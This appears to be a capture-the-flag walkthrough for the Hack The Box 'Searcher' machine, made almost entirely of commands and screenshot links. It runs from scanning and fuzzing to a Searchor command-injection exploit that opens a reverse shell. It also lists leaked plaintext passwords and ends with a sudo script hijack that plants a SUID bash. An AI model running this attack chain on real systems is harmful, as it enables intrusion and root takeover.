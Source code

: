 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.208
```
![image](https://github.com/user-attachments/assets/b87356b0-328d-4e3f-9d77-9931a3f05397)

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://searcher.htb/FUZZ -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/user-attachments/assets/d9bc1e67-58eb-4ac9-845e-722262c25cd1)

```
http://searcher.htb/
Flask and Searchor 2.4.0
```
![image](https://github.com/user-attachments/assets/bd4e8d89-c572-47ff-aed8-78849d8ecfa0)

```
https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection
nc -lvnp 9001
./exploit.sh searcher.htb 10.10.14.6
```
![image](https://github.com/user-attachments/assets/0c8ae1ca-65ee-4482-a470-d158ca0885ac)

![image](https://github.com/user-attachments/assets/75afe791-f94b-46c5-95c0-2377531e07b5)

```
./LinEnum.sh
```
![image](https://github.com/user-attachments/assets/fd501ed2-f7f8-4011-b4f8-c765d4eaabae)

```
ls –la
/var/www/app/.git
jh1usoih2bkjaspwe92
```
![image](https://github.com/user-attachments/assets/85d62632-00cc-42cc-8da1-7f6413235d1c)

```
ssh svc@10.10.11.208
```
![image](https://github.com/user-attachments/assets/586273ab-cf7c-4e40-bfe5-b9120eeab1d2)

```
http://gitea.searcher.htb/
http://gitea.searcher.htb/explore/users
```
![image](https://github.com/user-attachments/assets/d6e218ad-6de1-4bdf-a6fc-2089c28078df)

![image](https://github.com/user-attachments/assets/519c8951-5394-4350-aec1-b75be2a8b901)

```
sudo –l
ls -l /opt/scripts/system-checkup.py
```
![image](https://github.com/user-attachments/assets/73f7879c-6a72-4aa0-803f-a00969f0f4fc)

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
```
![image](https://github.com/user-attachments/assets/86e9740e-c3ed-4727-b569-a40d4a0c4e7d)

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect
```
![image](https://github.com/user-attachments/assets/bf255e72-2c04-40fc-a1bb-5c1c4acc38b0)

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq
yuiu1hoiu4i5ho1uh
```
![image](https://github.com/user-attachments/assets/3685c0b4-d22d-40a3-b6d3-7310cb3eaf89)

```
http://gitea.searcher.htb/
Login as administrator
http://gitea.searcher.htb/administrator/scripts
```
![image](https://github.com/user-attachments/assets/4576ac3a-928d-4aa2-92f5-a53ceed289b0)

![image](https://github.com/user-attachments/assets/842814c0-3185-4082-9fda-8ec21de91264)

```
cd /opt/scripts/
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```
![image](https://github.com/user-attachments/assets/e601cf8e-8c93-46e5-8690-e27c9e92d6cc)

```
cd /tmp
echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchmod 4777 /tmp/0xdf' > full-checkup.sh
chmod +x full-checkup.sh
sudo python3 /opt/scripts/system-checkup.py full-checkup
ls -l /tmp/0xdf
/tmp/0xdf -p
```
![image](https://github.com/user-attachments/assets/ba0cbc60-a1a6-424f-8c43-b75a15663089)
